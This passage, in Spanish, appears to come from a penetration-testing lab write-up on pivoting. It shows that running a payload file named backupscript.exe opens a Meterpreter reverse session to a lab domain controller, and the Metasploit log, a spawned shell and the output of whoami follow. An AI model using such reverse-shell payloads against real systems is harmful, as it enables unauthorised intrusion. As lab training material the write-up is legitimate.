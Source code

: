 Al abrir el archivo ```backupscript.exe```, nos devolverá una sesión meterpreter que podemos llevar a una shell, pivotado a través del servidor Ubuntu.

[![executewindowsshell](/images/executewindowsshell.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/executewindowsshell.png)

```bash
[*] Sending stage (200774 bytes) to 10.10.14.49
[*] Sending stage (200774 bytes) to 10.10.14.49
[*] Meterpreter session 18 opened (10.10.14.49:8081 -> 10.10.14.49:40035) at 2023-08-19 00:28:05 -0400

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 13
Meterpreter     : x64/windows
meterpreter > shell
Process 6244 created.
Channel 1 created.
'\\tsclient\linux\Pivoting'
CMD.EXE was started with the above path as the current directory.
UNC paths are not supported.  Defaulting to Windows directory.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>whoami
whoami
inlanefreight\victor
```